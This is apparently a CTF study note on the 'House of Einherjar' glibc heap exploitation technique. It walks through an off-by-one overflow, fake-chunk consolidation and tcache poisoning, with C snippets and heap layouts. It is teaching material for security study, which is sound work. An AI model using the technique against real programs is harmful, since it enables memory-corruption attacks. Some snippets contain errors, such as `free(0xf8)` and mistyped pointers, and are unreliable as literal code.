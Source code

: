 ```yaml
---
tags:
  - pwn/heap
  - pwn/technique
---
```

# Description
The **House of Einherjar** is a technique that leverages an [[off-by-one]] overflow on a buffer on the heap (most commonly a *null byte* overflow) to eventually gain an arbitrary chunk allocation.

TL;DR:
1. We use the off-by-one overflow to forge a fake freed, doubly-linked chunk
2. Free an adjacent chunk to coalesce it with our fake chunk
3. Our coalesced chunk lands in the [[bins#unsorted bin|unsorted bin]] ([[LIBC]] leak)
4. Perform [[tcache poisoning]] with your new [[overlapping chunks]]
# Attack
## Requirements
- Heap leak %% #pwn/heap-leak %%
- [[off-by-one]] overflow
## Result
- [[overlapping chunks]] / [[use after free|UAF]]
- [[tcache poisoning]]
## Process
### Parameters/Constraints
- Chunk `a` size: `sz_a`, can be any
- Chunk `b` size (desired tcache poisoning size): `sz_b`, must be tcache sized and have a least significant nibble of `0x8` (to enable the off-by-one overflow)
- Chunk `c` size: `sz_c`, must be greater than <abbr title="0x58">fastbin_max</abbr> so it will go to [[bins#unsorted bin|unsorted bin]]
	- If the off-by-one overflow is a *null byte* overflow, it must be at least 0x100, and it is most convenient if it least significant byte is 0x00 (so the overflow only changes the flags, and not chunk `c`'s size).
- Target pointer for allocation, `target`
### Steps
This analysis will assume that we have a *null byte* overflow and:
- `sz_a = 0x38`
- `sz_b = 0x28`
- `sz_c = 0xf8`
1. Allocate chunk `a`
   ```c
	intptr_t a = malloc(0x38); // real size of 0x40
	```
2. Create the fake chunk in the data section of chunk `a` (i.e., fake chunk's header will be right below chunk `a`).
   ```c
	a[0] = 0; // prev_size, doesn't matter
	a[1] = 0x40 + 0x30 - 0x10; // size is the combined *real* sizes of chunks a and b, minus 0x10 to account for chunk a's header
	a[2] = a; // fd
	a[3] = a; // bk, 
	```
	Note that we need `a->fd->bk == a` and `a->bk->fd == a`, thus `a->fd = a->bk = a` works!
3. Allocate chunk `b`. This will be the overlapping chunk with our fake chunk.
   ```c
	intptr_t b = malloc(0x28); // real size of 0x30
	```
4. Allocate chunk `c`.
   ```c
	intptr_t c = malloc(0xf8); // real size of 0x100
	```
	The heap structure now looks like this:
	```
	a:      0x0      0x41
	fake:   0x0      0x60
			&a       &a
			0x0      0x0
	b:      0x0      0x31
	        0x0      0x0
	        0x0      0x0
	c:      0x0      0x101
			...      ...
	```
5. Use off-by-one overflow on chunk `b` to overflow into the header of chunk `c`, resulting in chunk `c`'s `PREV_INUSE` flag being set to `0`.
   ```c
	memset(b, 0, 0x28 + 1);
	```
	That is,
	```
	c:      0x0      0x100
			...      ...
	```
6. Write a fake `prev_size` for our fake chunk right above chunk `c`. This will pass the "corrupted size vs. prev_size" error when attempting to consolidate
   ```c
	b[4] = 0x60
	```
	i.e.,
	```
	b:      0x0      0x31
			0x0      0x0
			0x0      0x0
	c:		0x60     0x100
			...      ...
	```
7. Fill [[bins#tcache|tcache]] for `sz_c` so chunk `c`, when freed, will go to unsorted bin not tcache (alternatively, this may be done before step 1, just makes debugging a bit more difficult that way)
   ```c
	for (int i = 0; i < 7; i++) {
		malloc(0xf8);
	}

	// no need to malloc again to prevent coalescing because chunks in tcache don't coalesce :)
	
	for (int i = 0; i < 7; i++) {
		free(0xf8);
	}
	```
8. Free chunk `c`, triggering consolidation with the fake chunk since chunk `c`'s `PREV_INUSE` flag is `0`, causing `free()` to think the previous chunk can be consolidated.
   ```c
	free(c);
	```
9. Now malloc some chunk of size greater than `sz_a = 0x38`:
   ```c
	d = malloc(0x70);
	```
   and we have overlapping chunks! The chunk `d` will take a portion of the unsorted bin chunk formed by the consolidation of chunk `c` with our fake chunk. This chunk thus overlaps with chunk `b`. From here, exploits vary depending on program constraints. The general idea is to achieve [[tcache poisoning]], e.g.
	1. Allocating and freeing another chunk of `sz_b = 0x28` into the tcache bin for (real) size 0x30. This is necessary so that we can eventually have the number of chunks in this tcache bin be set to 2, enabling us to allocate twice in a row later. See \[2\] for more details.
	2. Freeing chunk `b` into tcache.
	3. Writing into chunk `d` to corrupt chunk `b`'s next pointer for tcache poisoning.
	4. Allocate twice to get an arbitrary chunk allocation!
# Examples
- smiley CTF 2025 / pwn / limit
# References
1. [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_einherjar.c) 
2. https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f